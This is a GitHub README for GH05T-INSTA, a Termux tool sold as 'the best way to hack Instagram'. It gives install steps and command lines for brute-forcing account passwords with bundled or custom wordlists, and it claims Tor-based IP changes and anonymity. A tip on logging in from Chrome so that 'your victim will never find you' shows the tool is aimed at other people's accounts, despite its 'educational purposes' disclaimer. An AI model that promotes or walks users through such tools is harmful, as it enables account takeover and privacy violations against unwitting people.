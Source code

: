 Instagram account hacking tool

<b>We strive to provide the best service for</b>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220826_141617.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">
<i>TERMUX USERS  { No Root }</i>

<b>The best way to hack Instagram</b>

<b>Last Updated: Tuesday, 30 August 2022</b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

`This is our teamwork, so please support our team`

## Installation 3.01

$ `pkg install git`

$ `pkg install python`

$ `pkg install python2`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `python install.py`

$ `cd $HOME`

$ `rm -rf GH05T-INSTA`

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers

<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

#### We never recommend this method, but try it yourself

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155106.jpg" alt="GH05T INSTA" title="GH05T INSTA">

##### Why gh05t-hunter5 never recommend this `gh05t` method

* The main reason is that it is not good for your work
* This method wastes your time
* 101% Working 😉

#### Password List

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg" alt="GH05T INSTA PASSWORD LIST" >

<i>WORKING DEMO <a href="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_095805.jpg">GH05T ATTACK (safe to use)</a> </i>

<em>Please confirm that Tor is installed</em>

#

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

#

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`
